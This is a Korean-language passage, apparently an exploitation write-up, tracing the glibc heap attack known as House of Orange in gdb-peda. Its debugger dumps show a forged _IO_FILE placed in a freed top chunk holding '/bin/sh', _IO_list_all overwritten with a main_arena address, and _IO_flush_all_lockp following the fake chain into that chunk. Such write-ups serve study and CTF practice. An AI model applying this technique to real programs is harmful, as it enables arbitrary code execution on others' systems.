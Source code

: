 간단하게 orange 코드를 보자

```c
gdb-peda$ x/32gx 0x602400
0x602400:	0x0068732f6e69622f	0x0000000000000061
0x602410:	0x00007ffff7dd1bc8	0x00007ffff7dd1bc8
0x602420:	0x0000000000000000	0x0000000000000000
0x602430:	0x0000000000000000	0x0000000000000000
0x602440:	0x0000000000000000	0x0000000000000000
0x602450:	0x0000000000000000	0x0000000000000000
0x602460:	0x0000000000000000	0x0000000000000000
0x602470:	0x0000000000000000	0x00000000004006e5
0x602480:	0x0000000000000000	0x0000000000000000
0x602490:	0x0000000000000000	0x0000000000000000
0x6024a0:	0x0000000000602490	0x0000000000000002
0x6024b0:	0x0000000000000003	0x0000000000000000
0x6024c0:	0x0000000000000001	0x0000000000000000
0x6024d0:	0x0000000000000000	0x0000000000602460
```

free chunk가 된 old top에 사용할 구조체들의 구조를 임의로 써준 모습이다.

```c
gdb-peda$ p _IO_list_all
$2 = (struct _IO_FILE_plus *) 0x7ffff7dd1b78 <main_arena+88>
```

_int_malloc()에 의해 이미 _IO_list_all 이 main_arena.top으로 덮어져 있고

```c
==================  Main Arena  ==================
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x624010 (size : 0x20ff0)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x602400 (size : 0x60)
(0x060)  smallbin[ 4]: 0x602400 (overlap chunk with 0x602400(freed) )
```

free chunk가 smallbin[4]에 들어가 있다. 

 _IO_flush_all_lockp 함수에 브레이크를 걸고 보면 명확하게 보인다.

```c
0x7ffff7a8920a <_IO_flush_all_lockp+490>:	mov    rbx,QWORD PTR [rbx+0x68]
```

이 인스트럭션을 수행하고 나면 fp가 free chunk로 바뀌게 된다. (fp = fp -> _chain;)

```c
gdb-peda$ x/gx $rbx
0x7ffff7dd1b78 <main_arena+88>:	0x0000000000624010
gdb-peda$ x/gx $rbx + 0x68
0x7ffff7dd1be0 <main_arena+192>:	0x0000000000602400
    
gdb-peda$ p fp
$4 = (struct _IO_FILE *) 0x602400
```
